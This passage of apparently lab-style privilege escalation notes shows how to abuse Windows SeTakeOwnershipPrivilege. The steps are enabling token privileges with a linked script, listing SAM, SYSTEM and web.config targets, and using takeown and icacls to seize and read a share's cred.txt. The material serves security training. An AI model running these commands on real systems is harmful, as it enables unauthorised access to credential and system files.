 ```
    Computer Configuration ⇾ Windows Settings ⇾ Security Settings ⇾ Local Policies ⇾ User Rights Assignment

    
    
#### Enabling SeTakeOwnershipPrivilege


We can enable it using this script 
[EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)  

```
    PS C:\> Import-Module .\Enable-Privilege.ps1
    PS C:\> .\EnableAllTokenPrivs.ps1
```

#### Choosing a Target File


```
    c:\inetpub\wwwwroot\web.config
    %WINDIR%\repair\sam
    %WINDIR%\repair\system
    %WINDIR%\repair\software  , %WINDIR%\repair\security
    %WINDIR%\system32\config\SecEvent.Evt
    %WINDIR%\system32\config\default.sav
    %WINDIR%\system32\config\security.sav
    %WINDIR%\system32\config\software.sav
    %WINDIR%\system32\config\system.sav
```


#### Gather Info
```    PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}```

#### Checking File Ownership

If the owner is not shown, means that we likely do not have enough permissions over the object.

`PS C:\> cmd /c dir /q 'C:\Department Shares\Private\IT'`

We can see that the IT share appears to be owned by a service account and does contain a file cred.txt with some data inside it.

#### Taking Ownership 

`PS C:\> takeown /f 'C:\Department Shares\Private\IT\cred.txt'`

#### Confirming Ownership Changed

```PS C:\> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}```

#### Modifying the File ACL

    We may still not be able to read the file and need to modify the file ACL using icacls to be able to read it.

`PS C:\> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F`





```